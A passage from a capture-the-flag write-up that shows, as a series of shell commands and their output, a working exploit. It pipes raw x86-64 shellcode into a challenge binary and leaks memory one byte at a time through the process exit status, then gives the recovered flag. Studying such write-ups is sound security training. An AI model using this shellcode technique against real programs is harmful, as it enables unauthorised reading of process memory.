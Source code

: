 ```bash
97
$ printf "\x66\x48\x8b\x3c\x25\xf4\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
107
$ printf "\x66\x48\x8b\x3c\x25\xf5\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
95
$ printf "\x66\x48\x8b\x3c\x25\xf6\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
105
$ printf "\x66\x48\x8b\x3c\x25\xf7\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
115
$ printf "\x66\x48\x8b\x3c\x25\xf8\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
95
$ printf "\x66\x48\x8b\x3c\x25\xf9\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
116
$ printf "\x66\x48\x8b\x3c\x25\xfa\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
111
$ printf "\x66\x48\x8b\x3c\x25\xfb\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
111
$ printf "\x66\x48\x8b\x3c\x25\xfc\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
95
$ printf "\x66\x48\x8b\x3c\x25\xfd\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
98
$ printf "\x66\x48\x8b\x3c\x25\xfe\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
105
$ printf "\x66\x48\x8b\x3c\x25\xff\x20\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
103
$ printf "\x66\x48\x8b\x3c\x25\x00\x21\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
125
$ printf "\x66\x48\x8b\x3c\x25\x01\x21\x60\x00\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05" |./only_a_way_out; echo "$?";
0
```

**ACS_IXIA_CTF{any_leak_is_too_big}**

<a name="missingpiece"></a>
## Missing Piece (150) - Exploit

x86-64 binary with no protections.
